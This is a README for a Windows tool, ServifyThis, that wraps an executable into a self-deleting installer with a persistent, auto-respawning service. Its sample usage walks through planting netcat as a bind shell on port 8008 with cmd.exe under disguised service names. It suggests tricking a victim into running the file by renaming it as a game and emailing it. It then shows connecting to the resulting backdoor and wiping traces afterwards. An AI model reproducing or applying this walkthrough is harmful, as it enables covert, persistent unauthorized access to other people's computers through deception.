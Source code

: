 # ServifyThis

###**ServifyThis Usage Instructions:**

ServifyThis will take any Win32 executable (either command-line or GUI) and wrap it into a new executable/service/installer program that will:

1) Dump the "servified" executable on the target machine at a user-specified location and with a user-specified name.

2) Create, dump, and install a Win32 service executable that will automatically run the "servified" executable both immediately upon installation and whenever Windows boots. This service can be set to automatically respawn the "servified" executable if it exits. The name and location of the service executable, its file path, and the service name (shown in the Service control panel) are all user-specified. Optionally, the GUI of the "servified" executable can be displayed... although I don't know why you might want to...

3) The installation package self-deletes when its payload has been delivered.

4) Running the service executable with a "-u" (uninstall) option, will cause it to stop the service, stop the executable, remove the "servified" executable and finally, self-delete, leaving nothing behind on the previously exploited machine.

The parameters entered into the GUI of ServifyThis should be self-explanatory, but the following example usage should answer any lingering questions.

###**Sample Usage:**

Launch ServifyThis.exe

The parameters are broken into two groups, parameters that apply to the local machine and remote parameters that apply to the machine where the "servified" executable will be installed.

Locally, we want to choose our copy of the netcat executable:

Application to "servify": c:\program files\attack tools\nc.exe

Remotely, we want to set netcat up to work like this:

`Application Pathname: c:\windows\win32svc.exe
Command Parameters: -l -p 8008 -e c:\windows\system32\cmd.exe
Working Directory: c:\
Service Display Name: W32CriticalService
Service Pathname: c:\windows\system32\w32critsvc.exe`

Additionally, we need to make sure that the "Respawn" checkbox is checked, as it is by default. Finally, let's set our respawn interval to 1 sec.

Once we click on the "OK" button, ServifyThis spits out a new executable called "Servified.exe" in the current directory.

We then arrange for "Servified.exe" to be run on our target machine, say, by changing the name to something like "ReallyCoolGame.exe" and emailing it to the machine's user, for instance.

When Servified.exe is run on the target machine, it'll drop a copy of nc.exe into the c:\windows directory under the name win32svc.exe. It will create and drop a new service (c:\windows\system32\w32critsvc.exe) which it will install and launch. The sole purpose of this service is to launch the copy of nc.exe (now called c:\windows\win32svc.exe) with the parameters specified (which will cause it to listen on port 8008 and spawn a command shell back to anyone who connects to that port).

With that work done, Servified.exe will simply disappear, deleting itself.

We then use a local copy of netcat to connect up to our target:

`c:\Program Files\Attack Tools>nc  8008`
  
This will return us a command shell anchored in the c:\ directory, as that's what we specified for nc.exe's working directory.

We can do anything we want to do with that backdoor, confident in the knowledge that it will both continuously respawn while the machine is running, and will autostart if the machine is rebooted.

Finally, once we've done our dirty work on the target machine, we can simply change to the c:\windows\system32 directory and issue the command:

`c:\>w32critsvc -u`
  
which will stop the running service, stop the running instance of nc, and delete both the c:\windows\win32svc.exe file and the c:\windows\system32\w32critsvc.exe file.
